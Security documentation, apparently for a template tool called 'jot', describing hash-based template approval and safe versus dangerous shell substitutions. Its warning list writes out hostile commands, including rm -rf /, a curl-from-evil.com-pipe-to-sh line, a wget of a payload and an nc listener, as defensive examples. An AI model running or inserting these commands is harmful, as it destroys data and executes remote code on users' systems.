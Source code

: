 ### Security Implementation

**Approval Storage:**
```
.jot/template_permissions
```

**Format:**
```
template-name:sha256:hash-of-content
meeting:sha256:a1b2c3d4e5f67890abcdef1234567890abcdef1234567890abcdef1234567890
daily:sha256:f6e5d4c3b2a1098765432109876543210987654321098765432109876543210
```

**Hash Calculation:**
- Content includes template file content and any shell commands
- Uses SHA-256 for cryptographic integrity
- Includes frontmatter and all executable commands

### Template Command Restrictions

**Allowed Command Patterns:**
```bash
# Safe read-only commands
$(date)                          # Current date/time
$(pwd)                          # Current directory
$(whoami)                       # Current user
$(git branch --show-current)    # Git information
$(basename $(pwd))              # Directory name
```

**Potentially Dangerous Commands:**
```bash
# File system modifications
$(rm -rf /)                     # Destructive operations
$(chmod 777 ~/.ssh)             # Permission changes
$(curl http://evil.com/script | sh)  # Remote code execution

# Network operations
$(wget malicious.com/payload)   # Downloading executables
$(nc -l 1234)                   # Network listeners

# System modifications
$(sudo systemctl stop ssh)     # System service changes
$(crontab -e)                  # Scheduled task modifications
```

### Review Guidelines

**Before Approving Templates:**

1. **Read all shell commands** - Understand what each `$(...)` does
2. **Verify command safety** - Ensure commands are read-only or safe
3. **Check for user input** - Ensure no unvalidated input reaches shell
4. **Consider command failure** - Ensure failures don't cause problems
5. **Review periodically** - Re-examine approved templates occasionally
